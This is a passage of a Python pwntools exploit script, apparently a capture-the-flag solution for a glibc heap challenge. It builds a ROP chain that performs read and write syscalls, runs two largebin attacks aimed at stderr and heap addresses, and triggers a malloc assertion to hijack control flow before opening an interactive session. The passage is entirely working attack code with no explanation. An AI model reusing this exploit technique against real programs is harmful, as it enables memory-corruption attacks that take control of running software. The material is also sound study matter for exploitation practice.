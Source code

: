 ```python
payload += p64(0)
payload += p64(pop_rsi)
payload += p64(heap_base + 0x100)
payload += p64(syscall)#read
payload += p64(pop_rax)
payload += p64(1)
payload += p64(pop_rdi)
payload += p64(1)
payload += p64(pop_rsi)
payload += p64(heap_base + 0x100)
payload += p64(syscall)#write
io+=payload

io = io.ljust(0x430,'\x00')

#----------------------------------------------

add(4,0x440,io)# largebin 0 
add(5,0x440,cyclic(0x440))
add(6,0x430,cyclic(0x430))#largebin 1
# add(7,0x440,cyclic(0x440))
# add(8,0x420,cyclic(0x420))
delete(4)
add(9,0x460,cyclic(0x440))
delete(6)
#largebin attack
payload = p64(libc_base+0x21a0e0)*2 + p64(heap_base+0xf90) + p64(stderr_addr-0x20) + p64(0)*2
edit(4, payload)
add(10,0x460,cyclic(0x460))

add(11, 0x430, cyclic(0x430))#calloc chunk6

#largebin attack 2

delete(11)#largebin 1 0x430
#delete(8)
payload = p64(libc_base+0x21a0e0)*2 + p64(heap_base+0xf90) + p64(heap_base+0x2538-5-0x20) + p64(0)*2
edit(4, payload)
add(15,0x41f,cyclic(0x41f))


# debug()
add(7, 0x460,cyclic(0x460))#trigger malloc assert

p.interactive()
```

